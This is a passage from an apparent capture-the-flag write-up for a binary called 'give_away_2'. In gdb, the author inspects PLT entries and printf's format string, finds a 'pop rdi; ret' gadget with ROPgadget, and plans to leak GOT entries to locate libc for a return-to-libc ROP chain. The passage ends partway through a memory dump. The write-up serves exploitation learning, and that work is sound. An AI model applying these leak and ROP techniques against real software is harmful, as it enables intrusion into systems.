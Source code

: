 ```
0x00007ffff7fd5020  malloc@plt
0x00007ffff7fd5030  _dl_signal_exception@plt
0x00007ffff7fd5040  calloc@plt
0x00007ffff7fd5050  realloc@plt
0x00007ffff7fd5060  _dl_signal_error@plt
```

Ok so there is printf. That's useful. But printf usually has a format string - what do I do?
I can see how printf is being called in main:

```c
   0x0000555555554872 <+14>:	lea    -0x15(%rip),%rsi        # 0x555555554864 <main>
   0x0000555555554879 <+21>:	lea    0xa4(%rip),%rdi        # 0x555555554924
   0x0000555555554880 <+28>:	mov    $0x0,%eax
   0x0000555555554885 <+33>:	callq  0x555555554690 <printf@plt>
```

well, rdi looks like the fmt string:
```
(gdb) x/s 0x555555554924
0x555555554924:	"Give away: %p\n"
```

So I can technically rop to the the address 0x0000555555554879 (main+21) so that it sets up `rdi` nicely for me with a `%p`, then slide down to printf to leak something new, then go back into `vuln` automatically. Great.

But using this I realized can only leak 1 address, and I don't even know if it would be useful. It also seem to crash afterwards.. So gotta try harder.

Why don't I just p`rintf()` without a format string? Not like it matters. I don't have to have one. I can just decode the output manually, after receiving it.

Since printf() uses rdi as the first pointer to print, I looked for something that would pop rdi off the stack with ROPgadget (`pip install ROPgadget`)

```
ROPgadget --binary give_away_2 --dump | grep rdi
...
0x0000000000000903 : pop rdi ; ret // 5fc3
```
Yay! found it.

I also found these two really helpful articles on ROPing with an unknown (well in this case known) libc:
https://tasteofsecurity.com/security/ret2libc-unknown-libc/
https://www.reddit.com/r/LiveOverflow/comments/7w6xec/leaking_libc/

The reddit thread says to leak something from GOT (Global Offset Table), because entries in GOT will contain accurate runtime addresses of certain libc symbols! Awesome.

Building on the previous exploits, if we can leak a GOT entry by popping its address into RDI, then calling printf(), we can know the address of libc functions.

```
(gdb) info file
....
	0x0000555555754fa0 - 0x0000555555755000 is .got

(gdb) x 0x0000555555754fa0
(keep hitting enter)
(gdb) x 0x0000555555754fa0
0x555555754fa0:	0x00200de0
(gdb)
0x555555754fa4:	0x00000000
(gdb)
0x555555754fa8:	0x00000000
(gdb)
0x555555754fac:	0x00000000
(gdb)
```